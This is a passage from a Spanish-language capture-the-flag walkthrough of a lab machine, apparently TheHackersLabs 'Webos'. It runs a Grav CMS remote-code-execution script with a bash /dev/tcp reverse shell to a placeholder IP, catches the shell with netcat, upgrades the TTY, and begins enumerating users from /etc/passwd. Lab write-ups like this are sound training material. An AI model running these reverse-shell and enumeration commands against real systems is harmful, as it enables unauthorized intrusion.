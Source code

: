Cambia el comando por la misma **Reverse Shell** que ocupamos con el Exploit anterior:
```bash
python3 Grav_CMS_RCE.py -t 192.168.100.10 -u 'admin' -p 'Perico69*****' -x 'bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"'
[*] Attacking 'http://192.168.100.10:80'...
[*] Uploading payload...
[*] Executing payload...
```
Ve cómo se queda ejecutando el Exploit.

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.10] 57510
bash: cannot set terminal process group (509): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Webos:/var/www/html$ whoami
whoami
www-data
```
Estamos dentro de nuevo.

Ya solo falta obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima y Crackeo de Llave Privada id_rsa</h2>

Veamos qué usuarios existen en la máquina:
```bash
www-data@TheHackersLabs-Webos:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
webos:x:1001:1001::/home/webos:/bin/bash
```
Hay dos usuarios.
